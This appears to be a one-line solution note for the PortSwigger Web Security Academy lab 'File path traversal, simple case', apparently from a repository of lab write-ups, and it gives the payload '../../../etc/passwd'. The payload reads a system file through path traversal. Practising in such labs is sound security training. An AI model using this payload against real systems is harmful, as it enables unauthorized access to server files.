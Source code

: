 # [File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)
```
../../../etc/passwd
```